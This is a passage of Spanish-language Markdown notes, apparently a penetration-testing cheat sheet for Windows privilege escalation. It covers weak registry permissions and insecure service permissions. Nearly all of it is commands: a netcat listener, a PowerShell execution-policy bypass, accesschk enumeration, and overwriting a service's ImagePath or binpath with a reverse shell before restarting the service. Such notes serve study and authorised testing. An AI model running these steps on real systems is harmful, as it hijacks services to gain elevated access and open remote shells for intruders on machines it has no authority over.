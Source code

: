 5º Listener en kali `nc -nlvp 53`
6º Paramos y encendemos el servicio `net stop SERVICIO / net start SERVICIO`

### Weak Registry Permissions
1º invocar una sesion de powershell 
~~~~c
>> powershell -exec bypass
~~~~

2º Preguntar la ACL lo que podemos hacer con ese servicio
~~~~c
>> Get-Acl PATH | Format-List
~~~~

3º  Preguntamos con accesschk los grupos que tienen permiso
~~~~c
>> .\accesschk.exe /accepteula -uvwqk PATH
~~~~

4º Preguntamos las acciones que podemos hacer al servicio
~~~~c
>> .\accesschk.exe -ucqv USUARIO SERVICIO
~~~~

5º Preguntar el estado del servicio
~~~~c
>> sc query SERVICIO
~~~~

6º Añadimos (cambiamos) el path del registro ImagePath  y le cambiamos por nuestra reverse shell
~~~~c
>> reg add PATH /v ImagePath /t REG_EXPAND /d C:\REVERSE /f
~~~~

7º Iniciamos listener con netcat

8º Reiniciamos el servicio `net stop SERVICIO / net start SERVICIO`

### Insecure Service Permission
1º De lo que nos de la tool de enumeracion enumeramos los servicios

2º Preguntamos los permisos que tiene nuestro usuario en el servicio
~~~~c
>> .\accesschk.exe /accepteula -uwcqv USUARIO SERVICIO
~~~~

3º Preguntar la configuaracion del servicio 
~~~~c
>> sc.exe qc SERVCIO
~~~~

4º Preguntar el estado del servicio 
~~~~c
sc.exe query SERVICIO
~~~~

5º  Intercambiar el binario por nuestra reverse shell
~~~~c
>> sc.exe config SERVICIO binpath= "\""C:\REVERSE.exe"
~~~~

